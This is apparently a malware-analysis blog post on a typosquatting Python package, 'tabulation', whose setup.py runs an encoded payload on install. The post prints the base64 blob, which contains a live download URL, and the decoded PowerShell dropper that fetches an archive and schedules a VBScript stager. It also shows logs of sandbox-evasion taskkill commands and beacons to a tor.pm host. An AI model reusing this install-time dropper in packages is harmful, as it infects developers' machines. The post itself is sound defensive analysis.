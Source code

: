 ```yaml
---
title: "Dearmored"
date: 2023-07-12T14:05:32-05:00
draft: false
series: Malware Analysis
tags: ['python','malware','deobfuscation']
---
```


Before I begin, a gentle shoutout to Lockness Ko, our dynamic analysis specialist, for his assistance with the dynamic analysis portion of this particular malicious package.

On the 26th of June, a Python package named **tabulation** came across our malware feed. It displayed all the signs of being a malicious package-- executing a base64 string within the setup.py portion of the package, and squatting a fairly well known package, **tabulate** by utilizing it's README and Github pages in the metadata. As we do with all packages that are suspected to be malicious, we began an analysis. 

## The Payload

As mentioned, the payload contained a base64 encoded string that would execute upon the installation of the package. Nothing shockingly out of the ordinary or ground breaking here on the malware front, this is a common tactic, it's easy to detect, and this particular version was easy enough to reverse as well. 

```python
exec(base64.b64decode("aW1wb3J0IHN1YnByb2Nlc3MsIG9zCmRlZiByKGMpOiA\
KICAgIHJlc3VsdCA9IHN1YnByb2Nlc3MuUG9wZW4oYywgc2hlbGw9VHJ1ZSwgc3Rka\
W49c3VicHJvY2Vzcy5QSVBFLCBzdGRvdXQ9c3VicHJvY2Vzcy5QSVBFLCBzdGRlcnI\
9c3VicHJvY2Vzcy5TVERPVVQsIGNsb3NlX2Zkcz1UcnVlKQogICAgb3V0cHV0ID0gc\
mVzdWx0LnN0ZG91dC5yZWFkKCkKZGVmIHIyKGMpOgogICAgc3VicHJvY2Vzcy5Qb3B\
lbihjLCBzaGVsbD1UcnVlLCBzdGRpbj1zdWJwcm9jZXNzLlBJUEUsIHN0ZG91dD1zd\
WJwcm9jZXNzLlBJUEUsIHN0ZGVycj1zdWJwcm9jZXNzLlNURE9VVCwgY2xvc2VfZmR\
zPVRydWUpCmlmIG9zLm5hbWUgPT0gIm50IjoKICAgIGlmIG5vdCBvcy5wYXRoLmV4a\
XN0cyhyIkM6L1Byb2dyYW1EYXRhL1VwZGF0ZXIiKToKICAgICAgICByKHIicG93ZXJ\
zaGVsbCAtY29tbWFuZCAkUHJvZ3Jlc3NQcmVmZXJlbmNlID0gJ1NpbGVudGx5Q29ud\
GludWUnOyAkRXJyb3JBY3Rpb25QcmVmZXJlbmNlID0gJ1NpbGVudGx5Q29udGludWU\
nOyBJbnZva2UtV2ViUmVxdWVzdCAtVXNlQmFzaWNQYXJzaW5nIC1VcmkgaHR0cHM6L\
y90cmFuc2Zlci5zaC9UVVVwUXJVdTlkL0luc3RhbGwuemlwIC1PdXRGaWxlICRlbnY\
6dG1wL2luc3QuemlwOyBFeHBhbmQtQXJjaGl2ZSAtRm9yY2UgLUxpdGVyYWxQYXRoI\
CRlbnY6dG1wL2luc3QuemlwIC1EZXN0aW5hdGlvblBhdGggQzovUHJvZ3JhbURhdGE\
7IFJlbW92ZS1JdGVtICRlbnY6dG1wL2luc3QuemlwIikKICAgICAgICBmcm9tIGRhd\
GV0aW1lIGltcG9ydCBkYXRldGltZSwgdGltZWRlbHRhOyB0ID0gKGRhdGV0aW1lLm5\
vdygpICsgdGltZWRlbHRhKG1pbnV0ZXM9MSkpLnN0cmZ0aW1lKCclSDolTScpCiAgI\
CAgICAgcjIoZidzY2h0YXNrcyAvQ3JlYXRlIC9TQyBPTkNFIC9TVCB7dH0gL1ROICJ\
VcGRhdGVyIiAvVFIgIkM6XFByb2dyYW1EYXRhXEluc3RhbGxcaW52aXMudmJzIicp"))
```

So let's unpack this a bit. As with most of these, you can simply swap the `exec` for a `print` and out will pop the 'obfuscated' payload. 

```python
import subprocess, os
def r(c): 
    result = subprocess.Popen(c, shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.STDOUT, close_fds=True)
    output = result.stdout.read()
def r2(c):
    subprocess.Popen(c, shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.STDOUT, close_fds=True)
if os.name == "nt":
    if not os.path.exists(r"C:/ProgramData/Updater"):
        r(r"powershell -command $ProgressPreference = 'SilentlyContinue'; $ErrorActionPreference = 'SilentlyContinue'; Invoke-WebRequest -UseBasicParsing -Uri xxxx://transfer.sh/xxxx/Install.zip -OutFile $env:tmp/inst.zip; Expand-Archive -Force -LiteralPath $env:tmp/inst.zip -DestinationPath C:/ProgramData; Remove-Item $env:tmp/inst.zip")
        from datetime import datetime, timedelta; t = (datetime.now() + timedelta(minutes=1)).strftime('%H:%M')
        r2(f'schtasks /Create /SC ONCE /ST {t} /TN "Updater" /TR "C:\ProgramData\Install\invis.vbs"')
```

Now this is a little more exciting. As we can see, we use Powershell's `Invoke-WebRequest` to quietly curl down an **install.zip** file from transfer.sh and to unpack it into a known location. It then invokes the Windows Task Scheduler to execute **invis.vbs** a minute after the subprocess is executed. Presumably, this is to allow for the file to download and decompress. But what exactly do these files contain, and what is invis.vbs doing? 

```vb
Set oShell = CreateObject ("Wscript.Shell") 
Dim strArgs
strArgs = "cmd /c pythonw C:\ProgramData\Install\inst.pyw"
oShell.Run strArgs, 0, false
```

This creates a WScript Shell, which invokes **inst.pyw**. We're now at Russian nesting dolls of staging. But bare with me, because this is where it gets interesting. As I said, the initial file dropped **installer.zip** was a ziparchive and decompressed during download. The file also contained the **pyarmor_runtime** and **inst.pyw** files. These, as you can likely glean by the name alone, are PyArmor obfuscated files. This presents a unique challenge, PyArmor unpackers are well documented running up to Python 3.10, but recent changes to the bytecode and opmaps in Python 3.11 have caused many of the ways these deobfuscators function to fail. And as anticipated, several off-the-shelf unpackers like Svenskithesource's [PyArmor-Unpacker](https://github.com/Svenskithesource/PyArmor-Unpacker) were ineffective at handling this new bytecode change.

## Dynamic Analysis

So with our static unpackers struggling to work through the PyArmor obfuscation, we shifted to dynamic analysis. I mentioned Lockness Ko earlier in the article; he was kind enough to lend a Dynamic Analysis sandbox for the next portion. We began as most dynamic analysis solutions do-- spinning up PCAP and packet sniffing software, turning on ProcMon and running the program. The first time we managed to get the program to run in the sandbox, Wireshark immediately died. A good indicator that we're dealing with something that's attempting to enumerate the virtual machine. We moved network monitoring out of the sandbox and tried again... 
And not much happened. We killed the process and pulled up ProcMon to see if there was something we were missing, but we weren't catching a whole lot. So in the spirit of seeing if this was some sort of delayed execution, we went ahead and ran the file one more time and let it sit for what felt like an eternity. And we waited. And we waited. And at last, we had something. ProcMon started firing off system events for enumeration of the current environment: 
```
"10:09:44.5260407 PM","WScript.exe","3396","Process Create","C:\Windows\System32\cmd.exe","SUCCESS","PID: 4292, Command line: ""C:\Windows\System32\cmd.exe"" /c pythonw C:\ProgramData\Install\inst.pyw"
"10:09:45.6561948 PM","pythonw.exe","5020","Process Create","C:\Program Files\Python311\Scripts\pip.exe","SUCCESS","PID: 1188, Command line: pip install requests"
"10:09:52.1659818 PM","pythonw.exe","5020","Process Create","C:\Program Files\Python311\Scripts\pip.exe","SUCCESS","PID: 2064, Command line: pip install cryptography"
"10:10:07.6860549 PM","pythonw.exe","5020","Process Create","C:\Windows\System32\Wbem\wmic.exe","SUCCESS","PID: 1476, Command line: wmic process get name"
"10:10:08.4851339 PM","pythonw.exe","5020","Process Create","C:\Windows\system32\cmd.exe","SUCCESS","PID: 1436, Command line: C:\Windows\system32\cmd.exe /c ""taskkill /f /im wireshark.exe"""
"10:10:08.4951144 PM","pythonw.exe","5020","Process Create","C:\Windows\system32\cmd.exe","SUCCESS","PID: 4632, Command line: C:\Windows\system32\cmd.exe /c ""taskkill /f /im dumpcap.exe"""
"10:10:08.5035489 PM","pythonw.exe","5020","Process Create","C:\Windows\system32\cmd.exe","SUCCESS","PID: 3844, Command line: C:\Windows\system32\cmd.exe /c ""taskkill /f /im processhacker.exe"""
"10:10:08.5120777 PM","pythonw.exe","5020","Process Create","C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe","SUCCESS","PID: 1052, Command line: powershell.exe get-process | format-table mainwindowtitle"
```

Now I'd like to draw some attention to several lines here. 
`taskkill /f /im wireshark.exe` - The source of our dead Wireshark on the first run. 
`pip install requests` and `pip install cryptography` will be very important very soon. 
We can see the outbound beaconing in Wireshark, given that we've moved Wireshark outside of the virtual machine. We can see it calling to a **tor.pm** address in our PCAP's. Since we're not catching the events in process monitor, this must mean that ~~the call is coming from inside the house~~ the requests are being transmitted through Python. But what is this actually doing, what information is being communicated?

Well as previously mentioned, we saw **requests** and **cryptography** installed through subprocesses. So that gives us some good intuition about the kind of interface we might be dealing with for this information. Intuition dictated that hooking the **requests** POST API function might spill out the information we're looking for. So we did just that.

**requests/api.py**
```python
def post(url, data=None, json=None, **kwargs):
    with open("C:\Windows\Temp\post.txt", "a") as f:
        f.write(url, data, json, sep='\n')
    ...
```

Running this, as anticipated, caused any POSTs utilizing the Python Requests package to write themselves to a file. We went ahead and ran the script again and... 
```
REQUEST
xxxx://xxxx.tor.pm/
{'1': 'gAAAAABkoRHTIO_HSkSBxDbFaarHWwX8T1qKIUgbuhaf0-294oY_TR1RuYFPVXYBkG5lQIKw2rRV7oPxL-CaKsiPerMKdwV5sUO1MEn3GZw3RToeSQXqvYo=', 
...}
```

And that's not shockingly helpful. However, we do have some excellent pretext for what this information might actually be! If you recall earlier, the **cryptography** package was installed during the execution of the malware. Fernet is a very common cryptography format used in Python, and more importantly, the `gAAAAAB`refers to a fairly fixed portion, the "fixed" timestamp. This allowed us to confirm that these were indeed Fernet encrypted payloads. For those unfamiliar with Fernet, it is a symmetric encryption algorithm utilizing a key. For our purposes, that is the brief of it. For those looking to read more, you can find a writeup on Fernet encryption in the [PYCA Cryptography documents](https://cryptography.io/en/latest/fernet/). Equipped with that information, we went ahead and enumerated the Cryptography package as well. Utilizing the same techniques we used in the requests modification, we hooked the `generate_key()` and `encrypt()` functions to also write their arguments to a file. So, for one final, time, we went ahead and ran the program, with all the appropriate functions hooked. And it worked perfectly! 

```
========
model vbox harddisk  
==============
product  virtualbox  
==============
version  vbox- 1  
==============
name system idle process system  registrysmss.execsrss.exe  wininit.exeservices.exe  lsass.exe  svchost.exesvchost.exefontdrvhost.exe  svchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.execsrss.exe  winlogon.exe  fontdrvhost.exe  dwm.exe sihost.exe taskhostw.exe explorer.exe  shellexperiencehost.exeruntimebroker.exeruntimebroker.exeapplicationframehost.exe  svchost.exediscord.exediscord.exediscord.exediscord.exediscord.exediscord.exegooglecrashhandler.exe googlecrashhandler64.exe  procmon64.exe cmd.exe conhost.exepowershell.exechrome.exe chrome.exe chrome.exe chrome.exe chrome.exe chrome.exe chrome.exe chrome.exe cmd.exe conhost.exepythonw.exewmiprvse.exe  wmic.execonhost.exe
```

Quite underwhelmingly, this seems to enumerate running processes and user information and signal back to the server. There were no other signs of additional downloads or file drops.

## Summary

This is but one example of how we can effectively use some creative process hooking and know-how to cause cryptographic functions to spill their secrets when they're relying on external libraries and packages to do that transmission. Dynamic analysis can facilitate introspection into programs that might otherwise use heavy obfuscation, and Python's reputation as an interpreted language makes levying the base level libraries and infrastructure a breeze to enumerate obfuscated malware.
